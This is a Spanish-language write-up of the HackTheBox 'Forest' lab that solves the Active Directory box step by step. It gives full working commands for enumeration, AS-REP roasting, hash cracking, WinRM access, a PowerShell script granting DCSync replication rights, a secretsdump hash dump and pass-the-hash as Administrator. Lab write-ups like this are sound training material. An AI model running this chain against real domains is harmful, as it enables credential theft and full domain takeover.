# Forest — HackTheBox

| Campo      | Detalle                                               |
|------------|-------------------------------------------------------|
| Plataforma | HackTheBox                                            |
| Dificultad | Easy                                                  |
| SO         | Windows (Active Directory)                            |
| Técnicas   | AS-REP Roasting, Evil-WinRM, WriteDACL, DCSync, PTH   |

---

## 1. Reconocimiento

```bash
nmap -sC -sV -oN nmap_forest 10.10.10.161
```

El escaneo devuelve muchos puertos. Filtramos los relevantes para Active Directory:

```bash
nmap -sC -sV 10.10.10.161 | grep -E "^[0-9]+|open"
```





---

## 2. Enumeración — LDAP y usuarios del dominio

Con `enum4linux` extraemos información del dominio aprovechando sesiones no autenticadas sobre LDAP:

```bash
enum4linux -a 10.10.10.161
```

Se identificaron:
- Servicio **LDAP** con enumeración de objetos sin autenticación
- Servicio **RDP** activo como vector de acceso posterior




Enumeramos los usuarios del dominio:

```bash
enum4linux -U 10.10.10.161
```



Guardamos los usuarios válidos en `users.txt` para el siguiente ataque.

---

## 3. AS-REP Roasting

Con la lista de usuarios ejecutamos **AS-REP Roasting** contra el DC. Este ataque funciona contra cuentas que tienen deshabilitada la preautenticación Kerberos: el DC responde con un TGT cifrado con el hash de la contraseña del usuario, que podemos crackear offline.

```bash
GetNPUsers.py htb.local/ -usersfile users.txt -dc-ip 10.10.10.161 -no-pass
```

Obtenemos un hash `$krb5asrep$23$` del usuario `svc-alfresco`.



### 3.1 Crackeo con Hashcat

```bash
hashcat -m 18200 svc-alfresco.hash /usr/share/wordlists/rockyou.txt
```

```
svc-alfresco : s3rvice
```



---

## 4. Acceso inicial — Evil-WinRM

Con las credenciales de `svc-alfresco` accedemos al sistema mediante WinRM:

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```





---

## 5. Escalada de Privilegios — WriteDACL → DCSync

### 5.1 Identificación del vector

Enumeramos los grupos del usuario `svc-alfresco`:

```bash
net user svc-alfresco /domain
```

**Hallazgo clave:** `svc-alfresco` pertenece al grupo **Account Operators**, lo que permite crear y modificar cuentas de usuario no protegidas en el dominio.

Mediante consultas LDAP identificamos el grupo **Exchange Windows Permissions**, que en instalaciones con Exchange hereda derechos de **WriteDACL** sobre el objeto raíz del dominio. WriteDACL permite modificar la lista de control de acceso del dominio — concediéndonos privilegios de replicación (DCSync).



### 5.2 Creación de usuario de control

Creamos un usuario nuevo y lo añadimos a los grupos necesarios:

```powershell
net user atacante Hol@1234 /add /domain
net group "Exchange Windows Permissions" atacante /add
net localgroup "Remote Management Users" atacante /add
```

### 5.3 Otorgar privilegios DCSync

Concedemos derechos de replicación al usuario de control mediante PowerShell nativo:

```powershell
# Cargar la configuración de seguridad del dominio
$Dominio = Get-Acl "AD:\DC=htb,DC=local"

# Obtener el SID del usuario atacante
$Usuario = Get-ADUser atacante
$SID = $Usuario.SID

# GUIDs de los derechos de replicación
$Guid_ReplicaChanges    = [Guid]"1131f6aa-9c07-11d1-f79f-00c04fc2dcd2"
$Guid_ReplicaChangesAll = [Guid]"1131f6ad-9c07-11d1-f79f-00c04fc2dcd2"

# Crear las reglas de acceso (ACE)
$Regla1 = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($SID, "ExtendedRight", "Allow", $Guid_ReplicaChanges)
$Regla2 = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($SID, "ExtendedRight", "Allow", $Guid_ReplicaChangesAll)

# Aplicar cambios
$Dominio.AddAccessRule($Regla1)
$Dominio.AddAccessRule($Regla2)
Set-Acl "AD:\DC=htb,DC=local" $Dominio
```

---

## 6. DCSync — Volcado de hashes NTLM

Con los privilegios de replicación activos ejecutamos un ataque **DCSync** desde nuestra máquina atacante, simulando ser un DC secundario que solicita sincronización:

```bash
secretsdump.py htb.local/atacante:Hol@1234@10.10.10.161
```

Obtenemos los hashes NTLM de todos los usuarios del dominio, incluyendo el Administrador.



---

## 7. Pass-the-Hash — Acceso como Administrador

Con el hash NTLM del Administrador no es necesario crackear la contraseña. Usamos Evil-WinRM con Pass-the-Hash directamente:

```bash
evil-winrm -i 10.10.10.161 -u Administrator -H <NTLM_HASH>
```



